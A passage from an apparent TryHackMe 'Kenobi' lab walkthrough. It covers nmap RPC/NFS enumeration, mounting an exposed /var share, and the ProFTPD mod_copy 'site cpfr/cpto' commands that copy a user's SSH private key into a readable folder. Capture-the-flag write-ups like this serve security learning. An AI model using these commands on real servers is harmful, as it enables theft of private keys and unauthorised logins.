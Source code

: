 Download file log.txt by using `get log.txt` and read it. File `log.txt` show that:

>User kenobi has generated public/private rsa key and save it to `/home/kenobi/.ssh/`

```
┌──(Hades㉿10.11.32.198)-[3.0:27.0]~/walkthrough/tryhackme/kenobi
└─$ cat log.txt  
<snip>
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
<snip>
```

### Remote Procedure Call 

```
### RPC Enumeration (111) ############################
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.66.44
<snip>
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
<snip>

| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1842988.0  6870640.0  22%   16.0T        32000

Nmap done: 1 IP address (1 host up) scanned in 3.50 seconds
```

RPC Service shows that folder `var` was sharing and can be mount.

```
┌──(Hades㉿10.11.32.198)-[2.9:27.0]~/walkthrough/tryhackme/kenobi
└─$ sudo mount 10.10.66.44:/var /mnt/var
[sudo] password for kali: 
                                                                                                                                                                            
┌──(Hades㉿10.11.32.198)-[2.9:27.1]~/walkthrough/tryhackme/kenobi
└─$ ls /mnt/var 
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
```

## Foothold

### 'mod_copy' to read ssh

I using `mod_copy` vulnerability in ftp service `linux/remote/36742.txt` and copy file private key at `/home/kenobi/.ssh/id_rsa` to folder `/var/tmp`.

```
ftp> site cpfr /home/kenobi/.ssh/id_rsa                                                                                                                                     
350 File or directory exists, ready for destination name                                                                                                                    
ftp> site cpto /var/tmp/id_rsa                                                                                                                                              
250 Copy successful
```
